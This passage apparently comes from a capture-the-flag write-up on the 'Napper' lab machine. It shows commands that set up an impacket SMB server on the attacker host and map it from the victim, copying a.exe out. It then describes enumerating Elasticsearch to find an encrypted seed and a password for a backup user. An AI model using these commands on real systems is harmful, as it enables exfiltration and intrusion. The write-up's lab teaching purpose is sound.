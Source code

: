> **Attacker Machine:**

```bash
impacket-smbserver smbFolder $(pwd) -smb2support -username oldboy -password oldboy123
```

> **Victime Machine:**

```cmd
net use x: \\10.10.14.152\smbFolder /user:oldboy oldboy123
cp .\a.exe x:\
md5sum a.exe
```

<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_051.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_052.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_053.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/napper_writeup/Napper_054.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_055.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_056.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_057.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_058.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_059.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I always know that I have the excellent resource of **HackTricks**, which provides me with all the information I need to list or exploit some service in which I do not have the necessary expertise. In this case I use the content of **[9200 - Pentesting Elasticsearch](https://book.hacktricks.xyz/network-services-pentesting/9200-pentesting-elasticsearch){:target="_blank"}** and I am finding very interesting information: there are **two indexes**, in one of which there is a document whose key value is the **seed** (which will be used to generate the encrypted password of the `backup` user) that appears to be dynamic, in the other index I find documents with keys and values seem to be the user data and password (dynamic, due to the seed). The value is **Base64** encoded, but if I decode it with `base64` its output is unreadable, which confirms that it is encrypted. I can access all the content at once if I access the `_search` endpoint and also confirm that the encrypted seed and password values are dynamic.

> An Elasticsearch **index** is a collection of related documents stored as **JSON**. Each document consists of keys and their corresponding values (strings, numbers, booleans, dates, arrays, geolocations, etc.).
